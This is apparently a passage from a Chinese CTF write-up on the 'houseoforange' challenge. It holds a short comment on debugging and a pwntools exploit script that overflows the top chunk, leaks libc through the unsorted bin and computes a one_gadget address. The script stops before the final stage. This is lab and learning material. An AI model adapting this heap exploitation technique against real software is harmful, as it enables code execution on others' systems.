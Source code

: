 说实话最后一步一层一层调试还是很复杂的，而且如果调不到 one_gadget 都判断不了 ESP 的值对不对。最后总算是调出来了：

```python
#!/usr/bin/env python
from pwn import *
from FILE import *

context.arch = 'amd64'
#context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']

def cmd(c):
    p.recvuntil('Your choice :')
    p.sendline(str(c))

def build(length, name, price, color):
    cmd(1)
    p.recvuntil('Length of name :')
    p.sendline(str(length))
    p.recvuntil('Name :')
    p.send(name)
    p.recvuntil('Price of Orange:')
    p.sendline(str(price))
    p.recvuntil('Color of Orange:')
    p.sendline(str(color))

def see():
    cmd(2)

def upgrade(length, name, price, color):
    cmd(3)
    p.recvuntil('Length of name :')
    p.sendline(str(length))
    p.recvuntil('Name:')
    p.send(name)
    p.recvuntil('Price of Orange:')
    p.sendline(str(price))
    p.recvuntil('Color of Orange:')
    p.sendline(str(color))

def giveup():
    cmd(4)

p = process('./houseoforange')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

build(0x28, '1' * 8, 1, 1)
upgrade(0x60, '2' * 0x40 + p64(0) + p64(0xf91), 1, 1) # Overflow top chunk
build(0x1000, '3' * 0x8, 1, 1) # Trigger sysmalloc
build(0x500, '4' * 0x8, 1, 1) # Get a chunk from Unsorted-bin
see() # Leak Unsorted-bin ptr
p.recvuntil('4' * 0x8)
offset = 0x7fc27d99a188 - 0x7fc27d5d5000
libc_base = u64(p.recvuntil('\n', drop=True).ljust(8, '\x00')) - offset
info('libc_base = ' + hex(libc_base))
if libc_base & 0xffffffff < 0x80000000:
    warning('LOWWORD(libc_base) < 0')
    p.close()
    exit(-1)
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_gadgets[3]

upgrade(0x500, '5' * 0x10, 1, 1)
see()
```